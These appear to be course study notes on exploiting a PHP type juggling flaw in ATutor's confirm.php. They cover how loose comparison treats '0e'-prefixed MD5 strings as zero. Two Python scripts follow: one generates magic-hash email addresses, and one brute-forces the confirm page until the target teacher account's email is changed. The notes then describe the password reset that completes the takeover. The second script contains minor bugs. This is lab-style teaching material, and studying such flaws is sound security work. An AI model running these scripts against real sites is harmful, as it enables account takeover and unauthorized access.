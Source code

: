 ## What is Type Juggling
A type juggling vulnerability arises when loose comparisons(== or == ! ) are employed instead of strict comparisons (=== or !== ) in an area where the attacker can control one of the variables being controlled.

For instance:

![](../../03.%20Images/t1-ss53.png)

We see that comparing:
1. Hex value in string type to integer value in string type
2. Hex value in string type and integer value in integer type
3. Hex value in integer type and integer value in integer type
all give true.

For atutor, we are interested in scientific exponential number notations.
Any time if a string starts with any number of digits, followed by the letter "e", which is then followed by any number of digits, the string is used in numeric context, and will be evaluated as a number.

In the following example:

![](../../03.%20Images/t1-ss54.png)

We see that, the automatic string-to-integer casting is working as expected even when the exponential notation is involved.

## Type Juggling Atutor
In context of Atutor, we  find a publicly accessible confirm.php page, where we see the following chunk of code:

![](../../03.%20Images/t1-ss55.png)

We see that if the GET request variables, 'e', 'id' and 'm' are set, the values are then set to their respective variables.
The non-working addslashes function is being used.
The id variable is then used to build the sql query. The id variable is typecast into an integer and that query is also properly parameterized for the queryDB function(elimination the chance of sql injection).
Finally, there's a check for the creation date of user's email by comparing it if a creation date exists.

Going further:

![](../../03.%20Images/t1-ss56.png)

The $code variable is initialized with the MD5 hash of the concatenated string consisting of 2 values that we control i.e. $e and $id  and the creation date entry, returned from the database by the previously analyzed SELECT query.
Moreover, only the first 10 characters of the MD5 hash are being assigned to the $code variable.

The vulnerable part then arrives, where we see a loose comparison of the $code and $m variable.
Here, we fully control the $m variable and partially control the $code variable.

## Exploiting Magic Hashes
To exploit a type juggling vulnerability, we use magic hashes.
A magic hash is basically a string that is when converted into a hash, creates a string starting with 0, followed by the letter "e", followed by other digits.
For instance:

![](../../03.%20Images/t1-ss57.png)

Here, the md5 hash of the given number, starts with 0, followed by the letter 'e', followed by a numerical string.
This means, this number can exploit a type juggling vulnerability.

In our Atutor instance, the hash formed for the loose comparison is created by the email, the creation date and the id.
We can create a similar magic hash generator in python as follows:

```python
import hashlib, string, itertools, re, sys

def gen_code(domain, id, date, prefix_length):
    count = 0
    for word in itertools.imap(''.join, itertools.product(string.lowercase, repeat=int(prefix_length))):
        hash = hashlib.md5("%s@%s" % (word, domain) + date + id).hexdigest()[:10]
        if re.match(r'0+[eE]\d+$', hash):
            print "(+) Found a valid email! %s@%s" % (word, domain)
            print "(+) Requests made: %d" % count
            print "(+) Equivalent loose comparison: %s == 0\n" % (hash)
        count += 1

def main():
    if len(sys.argv) != 5:
        print '(+) usage: %s <domain_name> <id> <creation_date> <prefix_length>' % sys.argv[0]
        print '(+) eg: %s offsec.local 3 "2018-06-10 23:59:59" 3'  % sys.argv[0]
        sys.exit(-1)

    domain = sys.argv[1]
    id = sys.argv[2]
    creation_date  = sys.argv[3]
    prefix_length = sys.argv[4]

    gen_code(domain, id, creation_date, prefix_length)

if __name__ == "__main__":
    main()
```

The script, takes a domain(that we control), id, creation date and a set of alpha characters, to create all possible combinations of usernames, where the md5 hash results to a scientific exponent string.

The result of the script is as follows:

![](../../03.%20Images/t1-ss58.png)

In a 3 character set, the number of requests made is 617, which is not a lot.

We can use this logic, to create a script, that brute forces the web application into generating a redirect request, which is created if the md5 of email gives 0eDDD.

```python
import hashlib, string, itertools, re, sys, requests

def update_email(ip, domain, id, prefix_length):
    count = 0
    for word in itertools.imap(''.join, itertools.product(string.lowercase, repeat=int(prefix_length))):
        email = "%s@%s" % (word, domain)
        url = "http://%s/ATutor/confirm.php?e=%s&m=0&id=%s" % (ip, email, id)
	      print "(*) Issuing update request to URL: %s" % url
        r = requests.get(url, allow_redirects=False)
        if (r.status_code == 302):
            return (True, email, count)
        else:
            count += 1
    return (False, Nothing, count)

def main():
    if len(sys.argv) != 5:
        print '(+) usage: %s <domain_name> <id> <prefix_length> <atutor_ip>' % sys.argv[0]
        print '(+) eg: %s offsec.local 1 3 192.168.1.2'  % sys.argv[0]
        sys.exit(-1)

    domain = sys.argv[1]
    id = sys.argv[2]
    prefix_length = sys.argv[3]
    ip = sys.argv[4]

    result, email, c = update_email(ip, domain, id, prefix_length)
    if(result):
        print "(+) Account hijacked with email %s using %d requests!" % (email, c)
    else:
        print "(-) Account hijacking failed!"

if __name__ == "__main__":
    main()
```

Executing the script, we see that the email for the teacher account is changed:

![](../../03.%20Images/t1-ss59.png)

After 2335 attempts, we find the username that will bypass authentication.
And the teacher account is hijacked:

![](../../03.%20Images/t1-ss60.png)

With the email changed, we can now request an change password on this account:

![](../../03.%20Images/t1-ss61.png)

By changing the password, we can then login with the new password and move forward to exploit the file upload vulnerability.
